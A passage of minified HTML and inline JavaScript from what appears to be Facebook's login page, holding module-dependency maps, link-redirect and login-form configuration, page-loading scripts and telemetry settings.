T","LBpTlcF","aF1d\/S0","zgwyDwg","tqMhCU8","lVRpfsF","DcLQ9Pg","Xi7tWEa","sbUqrB3","r05cF5K","FgLOThg","x\/SDr7f","foz7nw7","6KJTNZm","IR73PJe","n7BmNy5","vaVtyoz","9uoHrN7","ySeW7Hg","2elujRy","ORfF6wp","1Porv8d","Yv2Rq7N","7LA08jq","N43QL\/K","hS3R3aX"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","BanzaiScuba_DEPRECATED","PageTransitions","Animation"],"r":["J8bA\/bj"]},"be":1},"PhotoTags":{"r":["5p9Jgd9","jFE2rmn","nMQUa2h","tqMhCU8","x\/SDr7f","vaVtyoz"],"be":1},"TagTokenizer":{"r":["5p9Jgd9","jFE2rmn","nMQUa2h","xa5J6KM","Pv394ti","xRdbF07","FM1UEOk","W8oO7Kw","x\/SDr7f","vaVtyoz","2elujRy","HFjjZ9Y","1Porv8d"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"AsyncDialog":{"r":["R5w1rCJ","s8Aa03k","5p9Jgd9","7g+KHgD","+iyVIGv","bJ922yg","nMQUa2h","OIDMBgo","xa5J6KM","pG46baY","aF1d\/S0","zgwyDwg","lVRpfsF","Xi7tWEa","sbUqrB3","x\/SDr7f","foz7nw7","xiStG5X","vaVtyoz","9uoHrN7","ySeW7Hg","2elujRy","ORfF6wp","64yJWkL","Yv2Rq7N","7LA08jq","N43QL\/K","hS3R3aX"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"Hovercard":{"r":["R5w1rCJ","INCQAAx","5p9Jgd9","7g+KHgD","nNxjF+N","nMQUa2h","xa5J6KM","u\/C+LkT","aF1d\/S0","lVRpfsF","DcLQ9Pg","Xi7tWEa","sbUqrB3","r05cF5K","x\/SDr7f","foz7nw7","6KJTNZm","IR73PJe","n7BmNy5","vaVtyoz","9uoHrN7","ySeW7Hg","2elujRy","ORfF6wp","1Porv8d","Yv2Rq7N","N43QL\/K"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","BanzaiScuba_DEPRECATED","PageTransitions","Animation"],"r":["J8bA\/bj"]},"be":1},"XSalesPromoWWWDetailsDialogAsyncController":{"r":["gWMJgTe"],"be":1},"XOfferController":{"r":["hIek+bG"],"be":1},"PerfXSharedFields":{"r":["5p9Jgd9","pzzowf\/"],"be":1},"KeyEventTypedLogger":{"r":["L\/776GI","2elujRy","5p9Jgd9"],"rds":{"m":["BanzaiScuba_DEPRECATED"]},"be":1},"Dialog":{"r":["5p9Jgd9","7g+KHgD","+r+bQTM","96dnDXu","nMQUa2h","xa5J6KM","aF1d\/S0","lVRpfsF","sbUqrB3","x\/SDr7f","foz7nw7","vaVtyoz","2elujRy","ORfF6wp","J8bA\/bj","R5w1rCJ","9uoHrN7","ySeW7Hg","N43QL\/K"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","Animation","PageTransitions","BanzaiScuba_DEPRECATED"]},"be":1},"ExceptionDialog":{"r":["R5w1rCJ","s8Aa03k","5p9Jgd9","7g+KHgD","+iyVIGv","bJ922yg","ZfZTmf0","nMQUa2h","OIDMBgo","xa5J6KM","pG46baY","u\/C+LkT","aF1d\/S0","zgwyDwg","lVRpfsF","Xi7tWEa","sbUqrB3","9KXRHFb","x\/SDr7f","foz7nw7","xiStG5X","vaVtyoz","9uoHrN7","ySeW7Hg","au\/36kS","2elujRy","ORfF6wp","64yJWkL","1Porv8d","Yv2Rq7N","N43QL\/K"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"QuickSandSolver":{"r":["5p9Jgd9","8ELCBwH","x22Oby4","SWx3yNv","nMQUa2h","x\/SDr7f","foz7nw7","Xm0Rh4R","2elujRy","ORfF6wp","jCCrZek","vaVtyoz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"ConfirmationDialog":{"r":["5p9Jgd9","nMQUa2h","oE4DofT","x\/SDr7f","2elujRy","vaVtyoz"],"be":1},"QPLInspector":{"r":["VvVFw8n"],"be":1}}})});
  </script> 
  <script>

  requireLazy(["InitialJSLoader"], function(InitialJSLoader) {InitialJSLoader.loadOnDOMContentReady(["pzzowf\/","foz7nw7","5p9Jgd9","2elujRy","EwKsSrH","x\/SDr7f","Da6rL6k","nMQUa2h","ORfF6wp","\/rO0lbn","Ex9PJru","P\/mr5VE"]);});
  </script> 
  <script>

  requireLazy(["TimeSliceImpl","ServerJS"],function(TimeSlice,ServerJS){var s=(new ServerJS());s.handle({"define":[["LinkshimHandlerConfig",[],{"supports_meta_referrer":true,"default_meta_referrer_policy":"origin-when-crossorigin","switched_meta_referrer_policy":"origin","non_linkshim_lnfb_mode":null,"link_react_default_hash":"AT3FL3sjf0YMym21SYRqbrGGtefBvggnBJjOgRaQnXKmzHIYeDJwj2Cxc9ss9_RN3M7cVuFiVcVccNM1MLGA26LNwHHDvN0DmV10E5yYdr-lTZh7GmHr2Sa39h2mBbZCfyjfZCVW4solhYLzUF3SGQ","untrusted_link_default_hash":"AT07ztum4KZnUmZemViIL4mqn2cx4J3QCti1Jvkdl-pVQe8S48xrhtsX5iEFb9DPUZaJ4brGz9KDnkPZUHED6cOg7UrIYpFTfei7HO412ZImDRRNh2FJZ6BSPUNaqXAYs-wYWNwphCEH9eGqqiX6Gg","linkshim_host":"l.facebook.com","linkshim_path":"\/l.php","linkshim_enc_param":"h","linkshim_url_param":"u","use_rel_no_opener":true,"always_use_https":true,"onion_always_shim":true,"middle_click_requires_event":true,"www_safe_js_mode":"asynclazy","m_safe_js_mode":"MLynx_asynclazy","ghl_param_link_shim":false,"click_ids":[],"is_linkshim_supported":true,"current_domain":"facebook.com","blocklisted_domains":["ad.doubleclick.net","ads-encryption-url-example.com","bs.serving-sys.com","ad.atdmt.com","adform.net","ad13.adfarm1.adition.com","ilovemyfreedoms.com","secure.adnxs.com"],"is_mobile_device":false},27]],"elements":[["__elem_a588f507_0_1_Cu","u_0_1_a6",1],["__elem_a588f507_0_0_Kq","globalContainer",2],["__elem_a588f507_0_2_pu","content",1],["__elem_835c633a_0_0_vU","u_0_2_kL",1],["__elem_9f5fac15_0_0_KI","passContainer",1],["__elem_558608f3_0_0_lV","pass",1],["__elem_a588f507_0_3_bm","u_0_3_4m",1],["__elem_a588f507_0_4_3x","u_0_4_fv",1],["__elem_45d73b5d_0_0_zt","u_0_5_TM",1]],"require":[["ServiceWorkerLoginAndLogout","login",[],[]],["WebPixelRatioDetector","startDetecting",[],[false]],["ScriptPath","set",[],["XIndexReduxController","a1f3c513",{"imp_id":"0UvlqPMM1gEJ1vtls","ef_page":null,"uri":"https:\/\/www.facebook.com\/"}]],["UITinyViewportAction","init",[],[]],["ResetScrollOnUnload","init",["__elem_a588f507_0_0_Kq"],[{"__m":"__elem_a588f507_0_0_Kq"}]],["AccessibilityWebVirtualCursorClickLogger","init",["__elem_a588f507_0_0_Kq"],[[{"__m":"__elem_a588f507_0_0_Kq"}]]],["KeyboardActivityLogger","init",[],[]],["FocusRing","init",[],[]],["ErrorMessageConsole","listenForUncaughtErrors",[],[]],["HardwareCSS","init",[],[]],["LoginFormController","init",["__elem_835c633a_0_0_vU","__elem_45d73b5d_0_0_zt"],[{"__m":"__elem_835c633a_0_0_vU"},{"__m":"__elem_45d73b5d_0_0_zt"},null,true,{"pubKey":{"publicKey":"17f625724cdb3c5d124247d620d1ec7a81702d971a29708447c9cacfad2e3b60","keyId":205}}]],["BrowserPrefillLogging","initContactpointFieldLogging",[],[{"contactpointFieldID":"email","serverPrefill":""}]],["BrowserPrefillLogging","initPasswordFieldLogging",[],[{"passwordFieldID":"pass"}]],["FocusListener"],["FlipDirectionOnKeypress"],["LoginFormToggle","initToggle",["__elem_a588f507_0_3_bm","__elem_a588f507_0_4_3x","__elem_558608f3_0_0_lV","__elem_9f5fac15_0_0_KI"],[{"__m":"__elem_a588f507_0_3_bm"},{"__m":"__elem_a588f507_0_4_3x"},{"__m":"__elem_558608f3_0_0_lV"},{"__m":"__elem_9f5fac15_0_0_KI"}]],["IntlUtils"],["FBLynx","setupDelegation",[],[]],["RequireDeferredReference","unblock",[],[["BanzaiScuba_DEPRECATED","FbtLogging","IntlQtEventFalcoEvent"],"sd"]],["RequireDeferredReference","unblock",[],[["BanzaiScuba_DEPRECATED","FbtLogging","IntlQtEventFalcoEvent"],"css"]],["TimeSliceImpl"],["HasteSupportData"],["ServerJS"],["Run"],["InitialJSLoader"]],"contexts":[[{"__m":"__elem_a588f507_0_1_Cu"},true],[{"__m":"__elem_a588f507_0_2_pu"},true]]});requireLazy(["Run"],function(Run){Run.onAfterLoad(function(){s.cleanup(TimeSlice)})});});
  </script> 
  <script>

  now_inl=(function(){var p=window.performance;return p&&p.now&&p.timing&&p.timing.navigationStart?function(){return p.now()+p.timing.navigationStart}:function(){return new Date().getTime()};})();window.__bigPipeFR=now_inl();
  </script>
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yT/l/0,cross/tQOsrUqpxNB.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yE/l/0,cross/RspwE1UYLwr.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yt/l/0,cross/cIrybR6S1NV.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y6/l/0,cross/seJ6eJ1cfzG.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yi/l/0,cross/yotEdcUw9Gj.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yk/r/And2GBki4In.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="3qpiLbTu">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yT/l/0,cross/HRHNECZnIy5.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yg/r/zPhwrb475k1.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="3qpiLbTu">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3ij9m4/ye/l/en_GB/-93wzZvOJ8E.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="3qpiLbTu">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yM/r/N5mGYm9BP56.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="3qpiLbTu">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y8/r/kgCswNiKScM.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous" nonce="3qpiLbTu">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yi/l/0,cross/uaRUZk18yNI.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y2/l/0,cross/7arLQaaxjzj.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="anonymous">
  <script>
  window.__bigPipeCtor=now_inl();requireLazy(["BigPipe"],function(BigPipe){define("__bigPipe",[],window.bigPipe=new BigPipe({"forceFinish":true,"config":{"flush_pagelets_asap":true,"dispatch_pagelet_replayable_actions":false}}));});
  </script> 
  <script nonce="3qpiLbTu">

  (function(){var n=now_inl();requireLazy(["__bigPipe"],function(bigPipe){bigPipe.beforePageletArrive("first_response",n);})})();
  </script> 
  <script nonce="3qpiLbTu">

  requireLazy(["__bigPipe"],(function(bigPipe){bigPipe.onPageletArrive({displayResources:["/uaktyf","Pud6B2Z","vaVtyoz","1Porv8d","DcLQ9Pg","nMQUa2h","aF1d/S0","x/SDr7f","foz7nw7","2elujRy","ORfF6wp","Yo2UzOh","Ex9PJru","P/mr5VE"],id:"first_response",phase:0,last_in_phase:true,tti_phase:0,all_phases:[63],hsrp:{hblp:{consistency:{rev:1007033780}}},allResources:["pzzowf/","foz7nw7","5p9Jgd9","2elujRy","EwKsSrH","x/SDr7f","Da6rL6k","nMQUa2h","ORfF6wp","/uaktyf","Pud6B2Z","vaVtyoz","1Porv8d","DcLQ9Pg","aF1d/S0","Yo2UzOh","/rO0lbn","Ex9PJru","P/mr5VE"]});}));
  </script> 
  <script>

  requireLazy(["__bigPipe"],function(bigPipe){bigPipe.setPageID("7205495143192699061")});
  </script> 
  <script nonce="3qpiLbTu">

  (function(){var n=now_inl();requireLazy(["__bigPipe"],function(bigPipe){bigPipe.beforePageletArrive("last_response",n);})})();
  </script> 
  <script nonce="3qpiLbTu">

  requireLazy(["__bigPipe"],(function(bigPipe){bigPipe.onPageletArrive({displayResources:["2elujRy"],id:"last_response",phase:63,last_in_phase:true,the_end:true,jsmods:{define:[["TimeSliceInteractionSV",[],{on_demand_reference_counting:true,on_demand_profiling_counters:true,default_rate:1000,lite_default_rate:100,interaction_to_lite_coinflip:{ADS_INTERFACES_INTERACTION:0,ads_perf_scenario:0,ads_wait_time:0,Event:1},interaction_to_coinflip:{ADS_INTERFACES_INTERACTION:1,ads_perf_scenario:1,ads_wait_time:1,Event:100},enable_heartbeat:true,maxBlockMergeDuration:0,maxBlockMergeDistance:0,enable_banzai_stream:true,user_timing_coinflip:50,banzai_stream_coinflip:0,compression_enabled:true,ref_counting_fix:false,ref_counting_cont_fix:false,also_record_new_timeslice_format:false,force_async_request_tracing_on:false},2609],["cr:1642797",["BanzaiBase"],{__rc:["BanzaiBase","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1458113",[],{__rc:[null,"Aa2divoYk-zON7B_VxmlPfHLM6_3G4KS0pAWADlBRW5mWZ0ml5FWKWj8Ombpc2KD7IZg1UWqHLR1EABjTwIJa7i1YqyWaeA"]},-1],["cr:1069930",[],{__rc:[null,"Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1083116",["XAsyncRequest"],{__rc:["XAsyncRequest","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1083117",[],{__rc:[null,"Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["BanzaiConfig",[],{MAX_SIZE:10000,MAX_WAIT:150000,MIN_WAIT:null,RESTORE_WAIT:150000,blacklist:["time_spent"],disabled:false,gks:{boosted_pagelikes:true,mercury_send_error_logging:true,platform_oauth_client_events:true,graphexplorer:true,sticker_search_ranking:true},known_routes:["artillery_javascript_actions","artillery_javascript_trace","artillery_logger_data","logger","falco","gk2_exposure","js_error_logging","loom_trace","marauder","perfx_custom_logger_endpoint","qex","require_cond_exposure_logging"],should_drop_unknown_routes:true,should_log_unknown_routes:false},7],["cr:692209",["cancelIdleCallbackBlue"],{__rc:["cancelIdleCallbackBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["TrackingConfig",[],{domain:"https://pixel.facebook.com"},325],["WebDevicePerfInfoData",[],{needsFullUpdate:true,needsPartialUpdate:false,shouldLogResourcePerf:false},3977],["WebStorageMonsterLoggingURI",[],{uri:"/ajax/webstorage/process_keys/?state=1"},3032],["BrowserPaymentHandlerConfig",[],{enabled:false},3904],["TimeSpentConfig",[],{delay:1000,timeout:64,"0_delay":0,"0_timeout":8},142],["cr:1634616",["UserActivityBlue"],{__rc:["UserActivityBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1353359",["EventListenerImplForBlue"],{__rc:["EventListenerImplForBlue","Aa0m1CSJcrmkwYyPUd2MX9l7w6LjV9FwhrwA-odujyTk3DOOOa2qW4GSgdR6AnPyrgH1AcQ_yf9qi3xTtMkQkKAsup-bxU_PPg"]},-1],["cr:844180",["TimeSpentImmediateActiveSecondsLoggerBlue"],{__rc:["TimeSpentImmediateActiveSecondsLoggerBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1187159",["BlueCompatBroker"],{__rc:["BlueCompatBroker","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["ImmediateActiveSecondsConfig",[],{sampling_rate:0},423]],require:[["BDClientSignalCollectionTrigger","startSignalCollection",[],[{sc:"{\"t\":1659080345,\"c\":[[30000,838801],[30001,838801],[30002,838801],[30003,838801],[30004,838801],[30005,838801],[30006,573585],[30007,838801],[30008,838801],[30012,838801],[30013,838801],[30015,806033],[30018,806033],[30021,540823],[30022,540817],[30040,806033],[30093,806033],[30094,806033],[30095,806033],[30101,541591],[30102,541591],[30103,541591],[30104,541591],[30106,806039],[30107,806039],[38000,541427],[38001,806643]]}",fds:60,fda:60,i:60,sbs:1,dbs:100,bbs:100,hbi:60,rt:262144,hbcbc:2,hbvbc:0,hbbi:30,sid:-1,hbv:"2391321924209074644"}]],["NavigationMetrics","setPage",[],[{page:"XIndexReduxController",page_type:"normal",page_uri:"https://www.facebook.com/",serverLID:"7205495143192699061"}]],["FalcoLoggerTransports","attach",[],[]],["Chromedome","start",[],[{}]],["DimensionTracking"],["ClickRefLogger"],["DetectBrokenProxyCache","run",[],[0,"c_user"]],["NavigationClickPointHandler"],["ServiceWorkerURLCleaner","removeRedirectID",[],[]],["WebDevicePerfInfoLogging","doLog",[],[]],["WebStorageMonster","schedule",[],[]],["Artillery","disable",[],[]],["ScriptPathLogger","startLogging",[],[]],["TimeSpentBitArrayLogger","init",[],[]]]},hsrp:{hsdp:{clpData:{"1743095":{r:1,s:1},"1871697":{r:1,s:1},"1829319":{r:1},"1829320":{r:1},"1843988":{r:1}},gkxData:{"1652843":{result:false,hash:"AT6uh9NWRY4QEQoY6T8"},"5541":{result:true,hash:"AT70V-Q_zfEykznOaAo"},"1099893":{result:false,hash:"AT5kly2LSZV_DKGRmUA"}}},hblp:{consistency:{rev:1007033780},rsrcMap:{zPYlTyl:{type:"js",src:"https://static.xx.fbcdn.net/rsrc.php/v3/yO/r/_tJ17sGyxOX.js?_nc_x=Ij3Wp8lg5Kz"},O7kNNP8:{type:"js",src:"https://static.xx.fbcdn.net/rsrc.php/v3/yc/r/zhOEIDVk-KA.js?_nc_x=Ij3Wp8lg5Kz"}},compMap:{TransportSelectingClientSingleton:{r:["EJEdN5K","2elujRy","jCCrZek","Yv2Rq7N"],rds:{m:["ContextualConfig","BladeRunnerClient","DGWRequestStreamClient","MqttLongPollingRunner","BanzaiScuba_DEPRECATED"],r:["LBpTlcF","7X/R76+","9Zir1u8","5p9Jgd9","nMQUa2h","zgwyDwg","Xi7tWEa","foz7nw7","JPckifS","ORfF6wp","x/SDr7f"]},be:1},RequestStreamCommonRequestStreamCommonTypes:{r:["EJEdN5K"],be:1}}}},allResources:["zPYlTyl","O7kNNP8","LBpTlcF","nMQUa2h","x/SDr7f","lVRpfsF","Xi7tWEa","foz7nw7","ORfF6wp","s8Aa03k","7X/R76+","2elujRy"]});}));
  </script>
</body>
</html>
